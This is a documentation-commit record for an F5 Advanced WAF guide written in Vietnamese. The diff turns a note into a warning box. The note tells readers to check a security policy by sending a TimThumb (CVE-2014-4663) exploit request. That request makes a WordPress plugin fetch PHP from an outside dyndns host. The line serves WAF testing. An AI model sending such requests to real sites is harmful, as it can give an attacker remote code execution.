

Before and after one commit to biennt/f5waf, an MkDocs documentation site: the page built from source/securitypolicy.md, in a window 1280 px wide and 900 px high, scrolled down 505 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
warning box

```diff
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -1,6 +1,8 @@
 site_name: F5 Advanced WAF
 theme:
     name: readthedocs
+markdown_extensions:
+  - admonition
 docs_dir: source
 site_dir: build
 nav:
--- a/source/securitypolicy.md
+++ b/source/securitypolicy.md
@@ -17,7 +17,8 @@ Trong màn hình tiếp theo:
 
 Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ.
 
-> Để kiểm tra xem chính sách bảo mật này có đang hoạt động hay không, có thể thử một dạng tấn công vào lỗ hổng bảo mật của Wordpress, ví dụ CVE-2014-4663 (https://blog.sucuri.net/2011/08/attacks-against-timthumb-php-in-the-wild-list-of-themes-and-plugins-being-scanned.html).
+!!! warning
+Để kiểm tra xem chính sách bảo mật này có đang hoạt động hay không, có thể thử một dạng tấn công vào lỗ hổng bảo mật của Wordpress, ví dụ CVE-2014-4663 (https://blog.sucuri.net/2011/08/attacks-against-timthumb-php-in-the-wild-list-of-themes-and-plugins-being-scanned.html).
 Để thực hiện khai thác lỗ hổng, gửi một GET request tới đường dẫn `/wp-content/plugins/wordpress-gallery-plugin/timthumb.php?src=http://picasa.com12345.dyndns.org/1.php`. Nếu cấu hình thành công, hệ thống F5 BIG-IP sẽ chặn khai thác này, đưa ra một thông báo lỗi và kèm theo đó là một số `Support ID`, ghi nhận lại mã số này để tra cứu log. Truy cập vào giao diện quản trị F5 BIG-IP, vào mục `Security` > `Event Logs` > `Application` > `Requests`, nhập mã Support ID vào bộ lọc tìm kiếm, ta sẽ thấy một bản ghi log liên quan đến việc F5 BIG-IP chặn lại hành vi khai thác lỗ hổng bảo mật này.
 
 ## 2. Khởi tạo chính sách bảo mật chế độ triển khai nhanh - Rapid deployment policy
```
Also changed, not shown: source/other.md (+1 -0 lines).
